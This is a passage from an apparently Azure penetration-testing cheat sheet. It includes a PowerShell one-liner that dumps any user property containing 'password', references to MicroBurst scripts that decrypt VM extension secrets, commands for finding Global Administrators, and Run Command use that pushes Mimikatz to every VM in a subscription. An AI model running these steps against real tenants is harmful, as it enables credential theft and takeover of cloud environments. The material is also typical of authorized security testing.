 $users = Get-MsolUser -All; foreach($user in $users){$props = @();$user | Get-Member | foreach-object{$props+=$_.Name}; foreach($prop in $props){if($user.$prop -like "*password*"){Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)}}} 
```

#### Azure VM Extension settings
If you’re a local admin on an Azure VM, run the ![Get-AzureVMExtensionSettings](https://github.com/NetSPI/MicroBurst/blob/master/Misc/Get-AzureVMExtensionSettings.ps1) script from MicroBurst to decrypt VM extension settings and potentially view sensitive parameters, storage account keys and local Administrator username and password.  

- https://www.netspi.com/blog/technical/cloud-penetration-testing/decrypting-azure-vm-extension-settings-with-get-azurevmextensionsettings/

#### Custom Script Extension
The Custom Script Extension is particularly interesting as it downloads a script from a user-specified location (e.g. URL, blob storage, etc.) and then executes the script on a running Azure Windows or Linux VM.  


**Privilege required** : *Virtual Machine Contributor*

- https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-with-custom-script-extensions/

#### Hunting admins
```
PS C:\ > Get-MsolRoleMember -RoleObjectId 35j7643-444dl-242pq3-02143435 | fl  
```

--> Return Global administrator = Company administrator  
--> If attribute **LastDirSyncTime** is empty = Account only exist in AzureAD not exist on AD on-prem.

#### Run Command feature
The Run Command feature connects to the Virtual Machine Agent to run commands and scripts.  

The scripts can be provided through :  
- Azure Portal
- REST API
- Azure CLI
- PowerShell. 
```
PS C:\> Invoke-AzureRmVMRunCommand 	
```

--> Using **Run Command** commands can be executed even when the VM is otherwise unreachable (e.g. if the RDP or SSH ports are closed).  
--> **Run Command** execute commands in elevated privileges.  

**Privilege required** : *Microsoft.Compute/virtualMachines/runCommand/action*  
--> Virtual machine contributor  

It is also possible to use MicroBurst with **Invoke-AzureRmVMBulkCMD** module to run command on all the virtual machine in whole subscription:  
```
PS C:\ > Import-module MicroBurst.psm1  
PS C:\ > Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```

#### Managed Identities - Azure VM
Managed Identities can be used to access Azure Key Vaults and storage accounts.  

--> Accessing these resources can only be achieved if the correct RBAC or directory role has ben assigned. If the managed identites doesn't have any role assignements, it is not going to work  
```